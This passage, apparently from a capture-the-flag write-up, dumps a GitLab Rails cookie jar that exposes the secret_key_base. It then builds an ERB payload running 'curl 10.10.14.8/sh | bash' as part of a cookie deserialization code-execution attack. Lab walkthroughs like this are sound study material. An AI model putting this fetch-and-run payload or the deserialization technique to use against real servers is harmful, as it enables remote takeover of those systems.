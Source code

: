     => #<ActionDispatch::Cookies::CookieJar:0x00007f0e7fafdb80 @set_cookies={}, @delete_cookies={}, @request=#<ActionDispatch::Request:0x00007f0e7ecc92f8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false, "action_dispatch.logger"=>#<ActiveSupport::Logger:0x00007f0e843f29f8 @level=1, @progname=nil, @default_formatter=#<Logger::Formatter:0x00007f0e84342300 @datetime_format=nil>, @formatter=#<ActiveSupport::Logger::SimpleFormatter:0x00007f0e843f29d0 @datetime_format=nil, @thread_key="activesupport_tagged_logging_tags:69850162500840">, @logdev=#<Logger::LogDevice:0x00007f0e843422b0 @shift_period_suffix=nil, @shift_size=nil, @shift_age=nil, @filename=nil, @dev=#<File:/opt/gitlab/embedded/service/gitlab-rails/log/production.log>, @mon_mutex=#<Thread::Mutex:0x00007f0e84342238>, @mon_mutex_owner_object_id=69850162139480, @mon_owner=nil, @mon_count=0>>, "action_dispatch.backtrace_cleaner"=>#<Rails::BacktraceCleaner:0x00007f0e8f9a0548 @silencers=[#<Proc:0x00007f0e8bff90b0@/opt/gitlab/embedded/service/gitlab-rails/config/initializers/backtrace_silencers.rb:8>], @filters=[#<Proc:0x00007f0e8f9b5d58@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/activesupport-6.0.2/lib/active_support/backtrace_cleaner.rb:97>, #<Proc:0x00007f0e8f9b5880@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:16>, #<Proc:0x00007f0e8f9b56c8@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:17>, #<Proc:0x00007f0e8f9b5650@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:18>], @root="/opt/gitlab/embedded/service/gitlab-rails/">, "action_dispatch.key_generator"=>#<ActiveSupport::CachingKeyGenerator:0x00007f0e7fddebd8 @key_generator=#<ActiveSupport::KeyGenerator:0x00007f0e7fddec00 @secret="3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", @iterations=1000>, @cache_keys=#<Concurrent::Map:0x00007f0e7fddebb0 entries=1 default_proc=nil>>, "action_dispatch.http_auth_salt"=>"http authentication", "action_dispatch.signed_cookie_salt"=>"signed cookie", "action_dispatch.encrypted_cookie_salt"=>"encrypted cookie", "action_dispatch.encrypted_signed_cookie_salt"=>"signed encrypted cookie", "action_dispatch.authenticated_encrypted_cookie_salt"=>"authenticated encrypted cookie", "action_dispatch.use_authenticated_cookie_encryption"=>false, "action_dispatch.encrypted_cookie_cipher"=>nil, "action_dispatch.signed_cookie_digest"=>nil, "action_dispatch.cookies_serializer"=>:marshal, "action_dispatch.cookies_digest"=>nil, "action_dispatch.cookies_rotations"=>#<ActiveSupport::Messages::RotationConfiguration:0x00007f0e98bedf18 @signed=[], @encrypted=[]>, "action_dispatch.use_cookies_with_metadata"=>false, "action_dispatch.content_security_policy"=>nil, "action_dispatch.content_security_policy_report_only"=>false, "action_dispatch.content_security_policy_nonce_generator"=>nil, "action_dispatch.content_security_policy_nonce_directives"=>nil, "rack.request.cookie_hash"=>{}, "action_dispatch.cookies"=>#<ActionDispatch::Cookies::CookieJar:0x00007f0e7fafdb80 ...>}, @filtered_parameters=nil, @filtered_env=nil, @filtered_path=nil, @protocol=nil, @port=nil, @method=nil, @request_method=nil, @remote_ip=nil, @original_fullpath=nil, @fullpath=nil, @ip=nil>, @cookies={}, @committed=false>
    

At this point it’s time to set the payload. I’ll use a simple curl to myself
piping the results into `sh`:

    
    
    irb(main):005:0> erb = ERB.new("<%= `curl 10.10.14.8/sh | bash` %>")
    => #<ERB:0x00007f0e7b4f89f0 @safe_level=nil, @src="#coding:UTF-8\n_erbout = +''; _erbout.<<(( `curl 10.10.14.8/sh | bash` ).to_s); _erbout", @encoding=#<Encoding:UTF-8>, @frozen_string=nil, @filename=nil, @lineno=0>
    

Interestingly, the next two steps each run the payload. In this case, as I
haven’t started a webserver on my host, it fails to connect all three times:
